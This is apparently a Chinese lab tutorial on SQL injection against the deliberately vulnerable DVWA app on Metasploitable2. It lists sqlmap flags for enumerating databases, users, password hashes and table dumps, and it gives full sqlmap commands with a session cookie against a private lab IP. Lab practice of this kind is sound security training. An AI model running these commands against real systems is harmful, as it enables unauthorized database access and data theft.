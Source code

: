  - 小准备，在Metasploitable2查一下的ip

Metasploitable2里的dvwa是搭建好的，直接在kali访问 `http://Metasploitable的IP/dvw`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216221018178.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

设置DVWA Security的等级为low

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216221232322.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

第一次输入1，结果如下。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216221455186.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

第二次输入1’，结果如下。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216221708590.jpg#pic_center)

报错说明有漏洞课钻空子。↑

用sqlmap搞事情，基本语法如下：

 - -u:指定目标URL，即注入点
 - --cookies：当前会话的cookies值
 - -b：获取数据库类型，检查数据库管理系统标识 
 - --current-db：获取当前数据库 
 - --current-user：获取当前数据库使用的用户
 - -string：当查询可用时来匹配页面中的字符串
 - -users：枚举DBMS用户
 - -password：枚举DBMS用户密码hash
 - dbs：枚举当前数据库
 - -D 数据库名：指定数据库
 - -tables：枚举指定数据库的所有表
 - -T：指定数据库中的数据表
 - --columns：获取列的信息
 - -C：枚举数据表中的列
 - --dump：存储数据表项


#### 实验准备
要用F12抓包获取cookie

==注：在遇到的所有的Y/N选择中，一直选Y就好了，三选的直接Enter。==
#### 枚举当前使用的数据库名称和用户名
查询当前数据库名称↓
`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-db`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216222823966.jpg#pic_center)

查询当前数据库的使用者的用户名↓

`sqlmap -u "http://192.168.238.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-user`
